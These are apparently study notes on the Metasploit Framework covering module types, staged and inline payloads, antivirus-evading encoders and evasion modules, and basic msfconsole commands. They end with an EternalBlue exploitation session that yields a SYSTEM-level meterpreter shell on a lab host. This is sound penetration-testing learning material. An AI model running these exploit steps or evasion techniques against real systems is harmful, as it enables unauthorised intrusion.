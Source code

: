 # Metasploit
----


- **The Metasploit Framework is a set of tools that allow information gathering, scanning, exploitation, exploit development, post-exploitation, and more. While the primary usage of the Metasploit Framework focuses on the penetration testing domain, it is also useful for vulnerability research and exploit development.**


- **Auxiliary:Any supporting module, such as scanners, crawlers and fuzzers, can be found here.**
- **Encoders: Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.**
    - **Signature-based antivirus and security solutions have a database of known threats. They detect threats by comparing suspicious files to this database and raise an alert if there is a match. Thus encoders can have a limited success rate as antivirus solutions can perform additional checks.**

- **Evasion: While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.**

- **Exploits: Exploits, neatly organized by target system.**
- **Payloads: Payloads are codes that will run on the target system.**

### Adapters
An adapter wraps single payloads to convert them into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single PowerShell command that will execute the payload.

### Singles
Self-contained payloads (e.g., add user, launch notepad.exe) that do not need to download an additional component to run.

### Stagers
Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. "Staged payloads" will first upload a stager on the target system, then download the rest of the payload (stage). This provides some advantages, as the initial size of the payload will be relatively small compared to the full payload sent at once.

### Stages
Downloaded by the stager. This will allow you to use larger-sized payloads.

### Metasploit Payload Identification

Metasploit has a subtle way to help you identify single (also called "inline") payloads and staged payloads:

- `generic/shell_reverse_tcp`
- `windows/x64/shell/reverse_tcp`

Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the "_" between "shell" and "reverse". The latter is a staged payload, as indicated by the "/" between "shell" and "reverse".

### Commands
```sh
help
use /path

show options
 
show payloads

msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > 

msf6 exploit(windows/smb/ms17_010_eternalblue) > info

msf6 > search wordpress

msf6 > use 41
 // using numbers instead of path

msf6 > search type:auxiliary telnet

msf6 > set rport

msf6 > set rhosts

msf6 > unset all

/ it will unset them

exploit -z
```
- **The exploit command can be used without any parameters or using the “-z” parameter.The exploit -z command will run the exploit and background the session as soon as it opens.**

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-  10.14.86.101:4444 -> 10.10.
                                     PC                          41.232:49267 (10.10.41.232)


msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 

```